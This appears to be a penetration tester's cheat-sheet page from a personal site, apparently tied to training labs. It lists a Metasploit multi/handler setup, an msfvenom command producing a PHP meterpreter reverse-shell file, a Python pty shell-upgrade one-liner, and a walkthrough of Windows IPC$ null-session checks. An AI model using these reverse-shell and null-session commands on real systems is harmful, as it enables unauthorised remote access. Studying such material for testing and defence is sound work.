 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


## Metasploit
#### ./ Handlers

```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
<br/>
Once the required values are completed the following command will execute your handler: ‘msfconsole -L -r' 
<br/>
<br/>

#### ./ Scripting Payloads
PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
```

<br/>

## Python
#### ./ Spawn a terminal

```python
python -c 'import pty;pty.spawn("/bin/bash")';
```
<details> 
  <summary> <b>Checking for Null Sessions</b> </summary>

To verify that, we will exploit the IPC$ administrative share by trying to connect to it without valid credentials.

To connect, you have to type the following command in a Windows shell:

```bash
> NET USE \\<target IP address>\IPC$ '' /u:''
```

This tells Windows to connect to the IPC$ share by using an empty password and an empty username!

Let's try the command on our target:

<br/>
<img src="/assets/images/pts_labs/null_sessions/checking11.png" height="50%" width="50%">
<br/>


The previous command establishes a connection to the IPC$ administrative share without specifying a user; this is possible because our target host is vulnerable to null session attacks. This test only works with the IPC$. For example, it does not work with C$:
  
Example:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking12.png" height="60%" width="60%">
<br/>
You can also perform the very same checks by using smbclient:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking13.png" height="70%" width="70%">
</details>
